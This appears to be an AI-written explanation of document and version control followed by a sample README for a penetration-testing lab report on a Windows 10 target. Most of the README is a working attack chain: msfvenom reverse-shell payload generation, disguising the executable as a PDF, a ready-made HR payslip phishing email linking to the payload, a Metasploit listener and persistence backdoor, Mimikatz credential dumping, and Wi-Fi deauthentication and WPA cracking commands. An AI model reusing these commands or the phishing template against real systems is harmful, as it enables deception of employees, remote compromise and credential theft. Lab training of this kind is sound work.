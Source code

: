 Below is an example explanation and a sample README.md file that you can include with your deliverables. This document also includes brief descriptions for "Document Control" and "Version Control" as used in penetration testing reports.

---

### **Understanding Document Control & Version Control**

- **Document Control:**  
  Document control is the process of managing changes to the report, ensuring that only the latest, authorized version is used. This includes keeping a log of changes, listing the authors, dates of revisions, and distribution details. In your report, you might simply include a section that indicates this is the initial version (e.g., Version 1.0), along with details about who prepared and approved the document.

- **Version Control:**  
  Version control involves tracking revisions made to the report over time. This helps ensure that any updates or corrections are documented. Although you might not use a sophisticated tool like Git for a report, you can still include a version history table in your report that shows the version number, date, and a summary of changes.

---

### **Sample README.md File**

```markdown
# Penetration Testing Project - README

## Overview
This document contains a summary of the commands used, tools employed, and the steps performed during the penetration testing engagement on the Windows 10 environment. This README.md file is provided as part of the deliverables and includes all commands, as well as additional notes and file descriptions.

## Commands and Steps Used

### 1. Reconnaissance & Scanning
- **Enable Monitor Mode (Wi-Fi testing):**
  ```bash
  airmon-ng start wlan0
  ```
- **Full Nmap Port Scan (Target IP 100.113.47.90):**
  ```bash
  nmap -sS -p- -T2 100.113.47.90
  ```
- **Service & OS Detection:**
  ```bash
  nmap -sV --version-light -T2 100.113.47.90
  ```

### 2. Payload Generation
- **Generate a 64-bit Meterpreter Reverse Shell Payload:**
  ```bash
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=100.123.236.70 LPORT=9001 -e x64/xor -f exe > payload.exe
  ```
- **Disguise the Payload:**  
  The payload's icon was changed using Resource Hacker to look like a legitimate PDF file. (This was performed via the Resource Hacker GUI.)

### 3. Phishing Email Deployment (Using Gophish)
- **Hosting the Payload File:**  
  On the attacker machine:
  ```bash
  cp ~/payload.exe Payslip.exe
  cd /var/www/html
  python3 -m http.server 8080
  ```
- **Email Template Used in Gophish:**
  ```
  Subject: Your February Payslip is Now Available
  From: no-reply <noreplyspri@gmail.com>
  To: sprintspro123@outlook.com

  Dear Sprints,

  I hope this email finds you well.

  Your monthly payslip for February has been successfully generated and is now available for your review. Please use the following link to access your payslip securely:

  🔹 [View Your Payslip](http://100.123.236.70:8080/Payslip.exe)

  Should you have any questions regarding your salary, deductions, or any related matters, please do not hesitate to contact the HR Department.

  Best regards,
  HR Department
  ```

### 4. Exploitation & Reverse Shell Acquisition
- **Start Metasploit Listener:**
  ```bash
  msfconsole
  use exploit/multi/handler
  set payload windows/x64/meterpreter/reverse_tcp
  set LHOST 100.123.236.70
  set LPORT 9001
  exploit -j
  ```

### 5. Persistence Installation
- **Install a Persistent Backdoor using Metasploit:**
  ```bash
  use windows/local/persistence
  set SESSION 1
  set LHOST 100.123.236.70
  set LPORT 9002
  exploit
  ```

### 6. Pulling Chrome Passwords
- **Using Mimikatz to Extract Credentials:**
  1. Launch an elevated command prompt on the target.
  2. Run Mimikatz:
     ```bash
     mimikatz.exe
     ```
  3. In Mimikatz, run:
     ```
     privilege::debug
     sekurlsa::logonpasswords
     ```
- **If necessary, de-hash credentials using John the Ripper/Hashcat:**
  - (Refer to attached documentation for the exact commands and wordlists used.)

### Bonus: Wi-Fi Handshake Capture & Cracking (WPA/WPA2)
- **Capture Handshake:**
  ```bash
  airodump-ng -c 6 --bssid 00:1A:2B:3C:4D:5E -w capture wlan0mon
  ```
- **Deauthenticate Client (if needed):**
  ```bash
  aireplay-ng -0 5 -a 00:1A:2B:3C:4D:5E -c 11:22:33:44:55:66 wlan0mon
  ```
- **Crack the Wi-Fi Password:**
  ```bash
  aircrack-ng -a2 -b 00:1A:2B:3C:4D:5E -w rockyou.txt capture-01.cap
  ```

## Files Included
- **Malware File:** `payload.exe` (modified and disguised as Payslip_February_2024.exe)
- **Phishing Email Screenshot:** `phishing_email.png` or PDF version
- **Infected Image:** `infected_image.jpg`
- **Chrome Passwords File:** `chrome_passwords.txt` (contains extracted credentials)
- **Dictionary File:** `custom_dictionary.txt` (if used during the bonus step)
- **All Screenshots:** Attached in the project folder
- **This README.md:** Listing all commands and process details

## Document Control
- **Document Title:** Penetration Testing Report for Windows 10
- **Version:** 1.0
- **Author:** [Your Name]
- **Date:** [Submission Date]
- **Revision History:**  
  - Version 1.0 – Initial version, all tests and commands documented.

## Version Control
This report is maintained under version control to track changes and updates. The current version is 1.0. Future revisions will be logged here.  
*If using a version control system like Git, please refer to the commit history in the repository.*

## Additional Notes
- All tests were conducted in a controlled, authorized lab environment.
- The commands provided above were executed on both the Kali Linux machine and the Windows 10 target.
- For further details, please refer to the individual screenshots and attached files.

